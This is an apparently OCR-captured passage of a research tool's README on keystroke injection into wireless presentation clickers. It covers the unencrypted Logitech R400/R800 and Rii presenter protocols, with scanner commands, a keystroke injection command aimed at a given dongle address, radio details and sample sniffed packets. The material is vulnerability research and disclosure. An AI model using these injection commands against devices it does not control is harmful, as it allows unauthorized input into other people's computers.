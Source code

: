 ``` 

### Logitech Unencrypted

#### Overview

This is the standard unencrypted Logitech protocol, used by the R400/R800.

#### Device Discovery

You can find the address of your Logitech R400/R800 using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c {2..74..3} -l```

Packets should look something like this:

```
[2019-04-21 12:58:43.466]  32   0  9D:9E:95:52:07  
[2019-04-21 12:58:43.620]  32  10  9D:9E:95:52:07  00:C1:00:00:00:00:00:00:00:3F
```

#### Injection

Inject the test keystroke sequence into a specific Logitech R400/R800 dongle (address `9D:9E:95:52:07`):

```sudo ./tools/preso-injector.py -l -f logitech -a 9D:9E:95:52:07```

### Rii Wireless Presenter

#### Overview

The Rii Wireless Presenter (rounded-pen) is based on the BK2451 (which seems to be a nRF24 clone). This looks like a generic protocol, based on the prevalence of sister devices, so I'll probably recategorize this after getting some more data.

It is functionally an unencrypted wireless keyboard, vulnerable to keystroke injection.

#### PHY

The Wireless Presenter (rounded-pen) uses 250Kb/s nRF24 Enhanced Shockburst (w/o ACKs it seems), and a 5-byte address. The device I tested was observed to be camping at 2425 MHz, but it seems to use some sort of frequency-agility scheme. In practice, it is necessary to send some dummy packets on the target channel before sending keystroke packets.

I suspect there is some channel hopping going on, which I haven't characterized, but targeting a single channel is sufficient to demonstrate keystroke injection.

#### Device Discovery

You can find the address of your Wireless Presenter (rounded-pen) using `nrf24-scanner` as follows:

```sudo ./tools/nrf24-scanner.py -c 25 -l -R 250K -A 5```

*Note that yours might be on another channel.*

Packets should look something like this:

```
[2019-04-21 11:50:33.116]  25   3  6D:8C:01:14:25  4B:51:00
[2019-04-21 11:50:33.212]  25   3  6D:8C:01:14:25  4C:00:00
[2019-04-21 11:50:33.522]  25   3  6D:8C:01:14:25  4D:51:00
[2019-04-21 11:50:33.565]  25   3  6D:8C:01:14:25  4E:00:00
```

```